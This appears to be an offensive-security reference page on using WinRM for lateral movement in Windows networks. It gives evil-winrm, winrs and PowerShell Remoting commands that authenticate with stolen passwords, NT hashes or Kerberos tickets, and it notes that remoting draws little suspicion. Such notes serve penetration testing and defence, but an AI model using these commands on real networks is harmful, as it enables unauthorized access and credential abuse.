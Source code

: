 ```yaml
---
label: WinRM
subLabel: (winrs, PS Remoting)  
---
```


# WinRM (Windows Remote Managament) for Lateral Movement

> **Requirements**:
>
> * Credentials (password, NT hash, Kerberos TGT) of a member of the local **Administrators** or **Remote Management Users** group on the target machine.
> * WinRM enabled on target host (enabled by default on Windows Server, disabled by default on client Windows).
> * WinRM allowed on firewall (allowed by default).

WinRM is enabled by default on Windows Server 2012 and above. It's disabled by default on client Windows. All of the WinRM communication is over a single port (5985/TCP for HTTP, 5986/TCP for HTTPS).  Logon via WinRM is of the **Network type** (no reusable credentials). However, in Windows built-in tooling there's a way to delegate credentials to established session (below). By default, if you want to use WinRM, you need to be a **local administrator** on the target machine.

Linux:

```bash
# Using password
evil-winrm -i $host -u "$domain\\$user" -p $password

# Using NT hash
evil-winrm -i $host -u "$domain\\$user" -H $nt_hash

# TODO: Using Kerberos TGT
```

Windows ([winrs](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/winrs)):

> **IMPORTANT**: Using `winrs` the `-r` parameter must be provided as **hostname**, not an IP address.  

```powershell
# Using password
winrs -r:$hostname -u:$domain\$username -p:$password "cmd.exe"

# Using Kerberos TGT (in-memory)
winrs -r:$hostname "cmd.exe"
```

{/*TODO: winrs /allowdelegate*/}

## PowerShell Remoting

Powershell has built-in ability to run commands remotely on different machines - so-called PowerShell Remoting feature. It's achived using WinRM protocol under the hood. It's commonly used in enterprise management tasks so it's not very suspicious.

Windows:

```powershell
# Using password
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credentials = New-Object System.Management.Automation.PSCredential $username, $securePassword;
Enter-PSSession -Computername $host -Credential $credentials

# Using Kerberos TGT (in-memory)
Enter-PSSession -ComputerName $host
```

{/*TODO: Powershell Remoting with CredSSP*/}

## Enable WinRM with PowerShell

If you have administrative access to the machine (e.g. via SmbExec or RDP) you can activate WinRM with PowerShell.

```powershell
# All configuration at once (it might take a while)
Enable-PSRemoting
```

## Resources

* [Doctor Scripto, *Enable PowerShell "Second-Hop" Functionality with CredSSP*](https://devblogs.microsoft.com/scripting/enable-powershell-second-hop-functionality-with-credssp/)
* [Microsoft, *Making the second hop in PowerShell Remoting*](https://learn.microsoft.com/en-us/powershell/scripting/learn/remoting/ps-remoting-second-hop?view=powershell-7.4)
